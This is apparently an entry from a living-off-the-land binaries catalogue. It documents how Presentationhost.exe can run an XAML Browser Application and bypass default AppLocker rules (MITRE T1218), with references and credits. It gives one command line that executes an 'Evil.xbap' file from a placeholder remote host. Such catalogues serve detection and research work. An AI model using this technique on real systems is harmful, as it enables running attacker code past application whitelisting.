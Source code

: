 ## Presentationhost.exe
```

Presentationhost.exe file:///IPAddressOrDomainName/Evil.xbap
Executes the target XAML Browser Application (XBAP) file.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: True   
* Mitre: [T1218](https://attack.mitre.org/techniques/T1218/)   
   
* Links:   
  * https://medium.com/@jpg.inc.au/applocker-bypass-presentationhost-exe-8c87b2354cd4
  * https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
   
* File path:   
  * c:\windows\system32\PresentationHost.exe
  * c:\windows\sysWOW64\PresentationHost.exe
   
* Acknowledgement:   
  * Name: Josh Graham of TSS
    * Twitter: [@JPG1nc](https://twitter.com/@JPG1nc)
    * Blog: https://medium.com/@jpg.inc.au
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
   
OS:  
- [x] Windows Server 2016
- [x] Windows 10 1803
